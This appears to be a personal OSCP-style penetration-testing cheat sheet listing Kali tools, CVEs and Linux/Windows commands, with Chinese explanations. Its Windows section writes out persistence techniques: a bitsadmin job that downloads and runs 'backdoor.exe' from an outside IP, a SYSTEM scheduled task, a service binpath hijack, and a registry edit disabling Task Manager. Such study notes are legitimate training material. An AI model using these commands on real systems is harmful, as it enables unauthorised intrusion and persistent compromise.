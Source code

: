 # Foundation

## Kali

### hosts

```bash
# OSCP VPN
51.79.170.192   vpn-pool1.offseclabs.com
```

### Tools

#### information gathering

burpsuite, dirsearch, gobuster

#### vulnerability scanning

Nessus，nikto, wpscan

#### exploit framework

BeEF, metasploit

#### reverse shell

rsg

#### privilege escalation

mingw-w64, x86_64-linux-gnu-gcc,

### general

tcvps
shadowsocks
Parallels: Lock screen time

### CVE

#### Directory Traversal

- CVE-2021-43798    Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
- CVE-2021-41773    Apache HTTP Server 2.4.49 - Path Traversal
- CVE-2021-42013    Apache HTTP Server 2.4.50 - Path Traversal
- CVE-2021-24762    Perfect Survey < 1.5.2 - Unauthenticated SQL Injection

#### Command Injection

- 2021-3493(Linux-priviledge)
- 2019-11447(CuteNews)

### GN

phase_2 2(172.16.33.30), homework 172.16.33.9

## pentest process

A typical penetration test comprises the following stages:

- Defining the Scope
- Information Gathering
- Vulnerability Detection
- Initial Foothold
- Privilege Escalation
- Lateral Movement
- Reporting/Analysis
- Lessons Learned/Remediation

## Linux

### shell

#### find

```shell
touch root_auto_schedule.sh
sudo chown root root_auto_schedule.sh
sudo chmod o+w root_auto_schedule.sh
sudo find / -user root -type f -perm -o=w -iname '*.sh' 2>/dev/null
```

#### ss

```shell
ss -aptu
```

## Windows

### cmd & powershell

powershell -ep bypass

#### systeminfo

```shell
systeminfo /s host1
```

#### set

```shell
echo %temp%
```

#### dir

```shell
dir /a
dir /s *.exe /p
```

#### forfiles

```shell
forfiles /p c:\windows /s /m notepad.exe /c "cmd /s echo @path @fdate @ftime"
```

#### attrib

```shell
attrib -h local_hide.txt
```

#### icaacls

```shell
icacls local_hide.txt /grant Everyone:F
```

### reg

reg 是Windows命令行和脚本中用来操纵注册表的命令。reg 命令的全称是 "Registry Editor" 的缩写，它允许用户在命令行界面中执行注册表操作，如添加、修改、删除注册表键和值。

注册表是Windows操作系统中一个重要的数据库，存储了系统设置和配置信息，包括硬件、软件、用户偏好和系统设置等。通过 reg 命令，可以直接对注册表进行查询和更改，这对于系统管理和故障排除非常有用。

```shell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg add "hkcu\software\microsoftware\windows\currentversion\policies\system" /v disabletaskmgr /t reg_dword /d "1" /f
```

### bitsadmin

bitsadmin是一个Windows命令行工具，用于管理后台智能传输服务（Background Intelligent Transfer Service，简称BITS）。BITS是一项Windows服务，允许文件在网络上以异步方式传输，通常用于在用户不注意的情况下传输文件，如Windows更新或其他应用程序的数据更新。

bitsadmin 工具提供了一系列的命令来创建、监视和控制BITS作业。作业是由一个或多个文件传输组成的，并且可以根据网络条件动态地调整速度，这样在网络使用率低的时候可以更快地传输数据，而在网络繁忙时则减慢速度，避免占用过多带宽。

```shell
bitsadmin /list /allusers /verbose
bitsadmin /info xxx /verbose

bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://1.1.1.1/backdoor.exe" "c:\windows\temp\backdoor.exe"
bitsadmin /SetNotifyCmdLine backdoor "cmd.exe /c c:\windows\temp\backdoor.exe" NULL
bitsadmin /Setminretrydelay backdoor 1
bitsadmin /resume backdoor
```

### schtasks

schtasks 是Windows操作系统中用来创建、删除、查询、更改和运行系统任务计划的命令行工具。任务计划可以用来定时运行脚本或程序，执行系统维护任务，或者自动执行重复的作业。

```shell
schtasks /create /tn 任务名称 /tr 任务运行的命令 /sc 计划类型 /mo 修饰参数 /d 天 /st 开始时间 /ru 运行用户
```

```shell
schtasks /query /fo LIST /v
schtasks /create /tn "backdoor" /tr "c:\windows\temp\backdoor.exe" /sc minute /mo 1 /ru "system"
schtasks /run /tn "backdoor"
```

### sc

sc 是Windows操作系统中用来管理服务的命令行工具。sc 命令可以用来创建、删除、查询、更改和控制服务，如启动、停止、暂停和恢复服务。

```shell
sc query wsearch
sc qc wsearch
sc config wsearch binpath= "cmd.exe /c c:\windows\temp\backdoor.exe"
sc start wsearch
```

### SysinternalsSuit

- PsInfo64.exe /accepteula
